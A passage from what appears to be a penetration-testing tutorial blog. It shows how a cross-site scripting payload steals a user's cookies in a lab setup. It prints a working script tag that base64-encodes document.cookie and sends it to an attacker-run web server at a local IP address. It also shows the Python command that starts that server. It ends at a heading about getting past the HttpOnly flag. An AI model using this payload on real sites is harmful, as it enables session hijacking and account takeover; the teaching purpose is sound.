 So if we set up a web server in our Kali through the command

{% include codeHeader.html %}
```console
python3 -m http.server 80
```

like in the following screenshot

![](/assets/images/2022-11-12-pentesting-article-1/python-web-server.png)

and we write the payload

{% include codeHeader.html %}
```html
<script>var i=new Image;i.src="http://192.168.240.129/"+btoa(document.cookie);</script>
```

and we click *Submit*, we can see that a GET request has been printed in the web server, like in the following screenshot

![](/assets/images/2022-11-12-pentesting-article-1/user-cookies-exfiltrated-1.png)

The path of the GET request is the *base64* encoded form of the user cookies, so decoding it with the burpsuite decoder we can get the user cookies

![](/assets/images/2022-11-12-pentesting-article-1/user-cookies-exfiltrated-decoded-1.png)

As you can see, only the *security* cookie is displayed and not the *PHPSESSID* cookie. That's because the *HttpOnly* flag of the *PHPSESSID* cookie.

<div id='section-id-2-2'/>
## 2.2. Exfiltrating the cookies bypassing the HttpOnly flag through the PHP info page
